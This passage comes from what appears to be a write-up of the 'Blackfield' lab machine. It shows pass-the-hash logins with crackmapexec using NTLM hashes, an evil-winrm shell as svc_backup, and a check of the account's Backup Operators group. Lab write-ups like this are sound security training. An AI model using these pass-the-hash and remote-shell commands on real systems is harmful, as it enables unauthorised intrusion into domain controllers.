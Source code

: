 ```
```

All that's left is to try these hashes, the Administrator one first is a good idea.

# Gaining access
<hr>
## svc_backup

```
root@crab:~# crackmapexec winrm 10.10.10.192 -u Administrator -H '7f1e4ff8c6a8e6b6fcae2d9c0572cd62'
CME          10.10.10.192:445 DC01            [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD)
CME          10.10.10.192:445 DC01            [-] BLACKFIELD\Administrator 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
[*] KTHXBYE!

root@crab:~# crackmapexec winrm 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
CME          10.10.10.192:445 DC01            [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD)
CME          10.10.10.192:445 DC01            [+] BLACKFIELD\svc_backup 9658d1d1dcd9250115e2205d9f48400d
[*] KTHXBYE!

```
The NTLM hash for svc_backup works with winrm! Let's get that user.txt and enum some more.
```
root@crab:~# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir

    Directory: C:\Users\svc_backup\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/4/2020   9:22 PM             34 user.txt

*Evil-WinRM* PS C:\Users\svc_backup\Desktop>
```
Before mapping out the whole Active Directory with SharpHound, I like to check basic things such as the users privileges and what groups are they in.
The svc_backup user, as the name suggests, is part of the 'Backup Operators' group.
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> net user svc_backup
...
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Desktop>

```
